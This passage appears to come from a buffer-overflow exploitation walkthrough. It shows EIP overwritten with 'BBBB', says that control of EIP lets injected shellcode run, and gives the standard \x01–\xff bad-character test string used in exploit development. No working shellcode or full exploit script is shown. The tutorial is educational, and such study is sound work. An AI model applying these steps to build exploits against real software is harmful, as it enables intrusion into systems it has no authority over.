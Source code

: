 The EIP address has changed to `42424242` which means BBBB.<br />
We control EIP! I mean, if we inject EIP with an address that store a shellcode, it will be executed.
<br />

Let's find bad Characters.<br />
Bad Characters is a reserved character for the application, we can't use them.

```
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
<br />

Modify our script.
